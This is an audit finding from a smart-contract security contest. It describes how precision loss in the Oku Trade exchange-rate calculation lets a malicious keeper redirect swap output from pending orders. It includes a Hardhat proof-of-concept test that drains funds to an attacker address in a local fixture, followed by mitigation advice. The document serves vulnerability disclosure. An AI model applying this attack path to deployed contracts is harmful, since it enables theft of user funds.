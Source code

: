 # Issue M-1: Precision loss allows a mallicious user to drain amount received from orders 

Source: https://github.com/sherlock-audit/2025-07-oku-trade-order-types-judging/issues/171 

## Found by 
NHristov, bulgari, curly11, kangaroo

### Summary

Precision loss in `AutomationMaster._getExchangeRate` will cause zero exchange rates for low-priced tokens, bypassing the `minAmountReceived` checks in `Bracket.execute`, as a malicious keeper will invoke `performUpkeep` with crafted `txData` to siphon all user funds from pending orders.

### Root Cause
In 
https://github.com/sherlock-audit/2025-07-oku-trade-order-types/blob/main/oku-custom-order-types/contracts/automatedTrigger/AutomationMaster.sol#L202C1-L212C6

 In `AutomationMaster::_getExchangeRate` computes:
 ```solidity
      // filepath: AutomationMaster.sol
      function _getExchangeRate(IERC20 tokenIn, IERC20 tokenOut) internal view returns (uint256) {
          uint256 priceIn  = oracles[tokenIn].currentValue();  // USD price scaled to 1e8
          uint256 priceOut = oracles[tokenOut].currentValue(); // USD price scaled to 1e8
          return (priceIn * 1e8) / priceOut;
      }
```

Because of integer division, when `priceIn * 1e8 < priceOut` the result rounds down to `0`. This precision loss is the root cause of the exploit.
This is possible when the value of one token is high while he other is kept low e.g.:
BTC is currently valued at *120_000 USD* while a pepe coin is *0.00001137*


### Internal Pre-conditions

 1. Owner has called `[registerOracle(...)]`so that `AutomationMaster.oracles(tokenIn)` and `AutomationMaster.oracles(tokenOut)` are non-zero.
2. A Bracket (or StopLimit/OracleLess) order exists for a cheap token whose USD price yields `exchangeRate == 0`. Initially the price the exchange rate could be bigger than 10, however e.g. BTC price has pumped or the other coin went down drastically.


### External Pre-conditions

1. Off-chain oracle (e.g. PythRelay) returns USD prices scaled to 1e8, truncating any fractional part smaller than 1e-8.
2. The ratio `priceIn / priceOut` for a cheap token vs. an expensive token is below `1e-8`, causing `(priceIn*1e8)/priceOut` to evaluate to `0`.

### Attack Path

1. Initially an order is created when the exchange rate is 10 and  take profit is set to 20 and stop price to 5
2. For a short duration of time the token price goes down 10 times of the low valued token
3. In such case while the order amount initially could be 10_000 dollars(now valued at 1_000), the minimum amount calculated in AutomationMaster will be 0 because the precision loss in the exchange rate
4. **Attacker forges** a malicious [encodedTxData]pointing the swap recipient at their own address.
6. **Attacker calls**  performUpkeep and due to the base minimum amount calculated as 0, the `require` check passes and the amount that should be received to the user is now sent to the malicious user
7. This attack vector is also possible because when high slippage values are set(no checks against that so they could be set to 10_000) as they are taken into consideration while calculating the base minimum amount

### Impact

Users lose all of their pending order output tokens (WBTC) held in the Bracket, StopLimit or OracleLess contracts. The attacker (keeper) steals an unbounded amount of tokens equal to the full WBTC balance, resulting in a complete loss of user funds and any collected fees.

### PoC

Place this in the `happyPath.ts` down below

```javascript
describe("when slippage is set to maximum the order funds can be stolen", () => {
    const stopDelta = ethers.parseUnits("500", 8)
    const strikeDelta = ethers.parseUnits("100", 8)
    const strikeBips = 500
    const stopBips = 5000
    const swapInBips = 500

    let orderId: BigInt
    //setup
    before(async () => {
        //steal money for s.Bob
        await stealMoney(s.usdcWhale, await s.Bob.getAddress(), await s.USDC.getAddress(), s.usdcAmount)
        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), parseEther("250"))

        //reset test oracle price
        // set high value for initial ETH price
        // here we will use the price of one bitcoin instead for usdc just for demonstration purpose
        // which currently is 120_000 USD
        // we will also set the price of weth to a very low value
        // like 0.02
        // however this could be any tokens to bitcoin
        await s.wethOracle.setPrice(ethers.parseUnits("1", 8))
        await s.usdcOracle.setPrice(ethers.parseUnits("120000", 8))
        await s.uniOracle.setPrice(s.initialUniPrice)
        await s.opOracle.setPrice(s.initialOpPrice)

        let initial = await s.Master.checkUpkeep("0x")
        expect(initial.upkeepNeeded).to.eq(false)

    })
    it("order with a low cost token and high cost token to usdc could lead to drain because of precision loss", async () => {
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())

        await s.WETH.connect(s.Bob).approve(await s.Bracket.getAddress(), s.opAmount)

        //should be 833
        console.log("Current Price: ", currentPrice.toString())
        const bobBalanceBefore = await s.USDC.balanceOf(await s.Bob.getAddress())
        console.log("Bob's USDC balance before: ", bobBalanceBefore.toString())
        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice + 10n, // 18
            currentPrice - 1n, //7
            parseEther("25"), // 250 weth
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            0,//5 bips fee
            500,
            500,
            "0x",
            { value: s.fee }
        )
        console.log("Order created")

        const filter = s.Bracket.filters.BracketOrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        orderId = event[0]
        expect(Number(event[0])).to.not.eq(0, "Third order")

        //verify pending order exists
        const list = await s.Bracket.getPendingOrders()
        expect(list.length).to.eq(1, "1 pending order")

        
    })

    it("Check upkeep", async () => {
        //should be no upkeep needed yet
        let initial = await s.Master.checkUpkeep("0x")
        expect(initial.upkeepNeeded).to.eq(false)
        initial = await s.Bracket.checkUpkeep("0x")
        expect(initial.upkeepNeeded).to.eq(false)

        //decrease the price of weth currently 10 times
        //it represents
        await s.wethOracle.setPrice(ethers.parseUnits("0.001", 8))
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        //should be 0
        console.log("Current Price: ", currentPrice.toString())

        //check upkeep
        let result = await s.Master.checkUpkeep("0x")
        expect(result.upkeepNeeded).to.eq(true, "Upkeep is now needed")
        result = await s.Bracket.checkUpkeep("0x")
        expect(result.upkeepNeeded).to.eq(true, "Upkeep is now needed")

        //check specific indexes
        let start = 0
        let finish = 1
        const abi = new AbiCoder()
        const encodedIdxs = abi.encode(["uint96", "uint96"], [start, finish])
        result = await s.Bracket.checkUpkeep(encodedIdxs)
        expect(result.upkeepNeeded).to.eq(true, "first idx updeep is needed")

        console.log("Checking from master")
        result = await s.Master.checkUpkeep(encodedIdxs)
        expect(result.upkeepNeeded).to.eq(true, "first idx updeep is needed")
    })

    it("Perform Upkeep - stop loss", async () => {
        //check upkeep

        const result = await s.Master.checkUpkeep("0x")

        //get returned upkeep data
        const data: MasterUpkeepData = await decodeUpkeepData(result.performData, s.Frank)

        //get minAmountReceived
        const minAmountReceived = await s.Master.getMinAmountReceived(data.amountIn, data.tokenIn, data.tokenOut, data.bips)
        console.log("Min Amount Received: ", minAmountReceived.toString())
        //generate encoded masterUpkeepData
        const [,,,,,,,malicious] = await ethers.getSigners()
        const balanceBefore = await s.USDC.balanceOf(malicious.address)
        console.log("MaliciousUSDC balance before: ", balanceBefore.toString())

        //we manipulate the transaction so that 
        // the receiver of the money will be the malicious address
        // instead of the order receiver/creator
        const encodedTxData = await generateUniTx(
            s.router02,
            s.UniPool,
            malicious.address,
            minAmountReceived,
            data
        )

        console.log("Gas to performUpkeep: ", await getGas(await s.Master.performUpkeep(encodedTxData)))

        const balanceAfter = await s.USDC.balanceOf(malicious.address)
        console.log("Malicious USDC balance after: ", balanceAfter.toString())
    })
})
```

### Mitigation

 - In `_getExchangeRate`Switch to a higher-precision fixed-point library (e.g. 1e18) to avoid truncation to zero for small ratios 
`(priceIn * 1e18) / priceOut`
This needs to be taken into consideration in every function that interacts in any way with `_getExchangeRate`
 - In `Bracket.execute` add `require(baseMinAmount > 0, "Invalid exchange rate")` before swapping or always require that the amount out received by the contract should be > 0, this also prevents the attack vector where the slippage is set to 10_000
 

